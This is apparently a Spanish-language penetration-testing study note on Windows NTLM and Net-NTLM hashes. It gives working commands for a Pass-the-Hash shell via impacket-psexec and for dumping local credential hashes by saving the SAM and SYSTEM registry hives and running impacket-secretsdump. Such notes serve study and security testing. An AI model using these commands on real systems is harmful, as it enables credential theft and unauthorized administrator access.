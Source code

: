 ----
- Tags: #teoria #practica #windows #basico 
- ------

# Hash NTLM (Net LAN Manager)

### En Windows, los **hashes** NTLM (NT LAN Manager) se utilizan para almacenar **las contraseñas de los usuarios**. En lugar de almacenar las contraseñas en texto plano, se generan hashes mediante una función criptográfica a partir de las contraseñas. Estos hashes son valores de longitud fija que representan las contraseñas originales de forma no reversible.

### El hash NTLM es el resultado de aplicar una función criptográfica al valor de la contraseña original utilizando el protocolo NTLM. Este hash se utiliza para autenticar a los usuarios en un sistema Windows. Cuando un usuario inicia sesión, su contraseña se convierte en un hash NTLM y se compara con el hash almacenado en la base de datos del sistema. Si coinciden, se permite el acceso.

### **Este hash puede ser utilizado para realizar un Pass The Hash tanto como para intentar crackearlo, ya que es el hash original al cual fue convertida la contraseña en texto claro.**

---

# Hash NTLMv2 o Net-NTLM 

### Por otro lado, el hash **NTLMv2** es el hash que se genera en cada autenticación cliente/servidor, por lo que no es un hash que se almacene, sino que dependerá de cada comunicación.

### **Este hash puede ser utilizado para intentar crackearlo.**

----

# Pass The Hash 

### **Pass The Hash** consiste en un ataque en el que básicamente si se conoce el hash NTLM de un usuario, y ese usuario tiene los suficientes privilegios en el sistema. Se puede tanto ejecutar comandos como obtener una shell en el equipo Windows, solo conociendo su hash. 

```bash
# Una vez obtenido un hash NTLM, ejemplo: 
"aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

# Ambas maneras son validas para llevar a cabo el Pass The Hash
impacket-psexec WORKGROUP/Administrator@{target_ip} -hashes :e0fb1fb85756c24235ff238cbe81fe00
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@{target_ip}
```

### De esta manera nos podríamos autenticar como el usuario administrador en la máquina windows sin proporcionar contraseña ya que en lugar de esta proporcionamos el **hash NTLM**. 

------
# Obtener hashes NT 

### Para realizar un **Pass The Hash** en caso de que tengamos privilegios y poder así intentar escalar privilegios, podríamos hacer uso de la herramienta **impacket-secretsdump** junto al archivo *system* y *sam* del sistema víctima. 

### El archivo **system** es un archivo del registro de Wndows que contiene información sobre la conifuración y ajustes del sistema, así como detalles osbre los controladores dde dispositivos y la configuración del hardware. 

### El archivo **sam (Security Accounts Manager)** es un archivo del registro de Windows, que conteiene las cuentas de usuario y las claves de seguridad drelacionadas con la autenticación en el sistema.

#### En la máquina victima:
```shell
reg save HKLM\system system
reg save HKLM\sam sam 

# HKLM = HKEY_LOCAL_MACHINE (Una clave de raíz del Registro Windows)
```

### Con la instrucción **reg save** estamos creando una copia de seguridad del contenido del archivo **system** y del archivo **sam**, para posteriormente descargarlo a nuestra máquina y así poder dumpear los hashes NT para realizar un **Pass The Hash**. 

#### En la máquina atacante:
```bash
impacket-secretsdump -sam {sam_file} -system {system_file} LOCAL
```

### Una vez ejecutado este comando, obtendremos una lista de todos los hashes NT de los usuarios registrados en la máquina victima. 

#### IMPORTATEN: Es importante tener en cuenta que esto volcará los hashes almacenados en la máquina, por lo que si estamos en un entorno de Active Directory hay que entender que no se estan volcando los hashes NT del Domain Controler. Para obtener los hashes de los usuarios del dominio de Active Directory habría que enfocarse en el archivo **NTDS.dit**. 


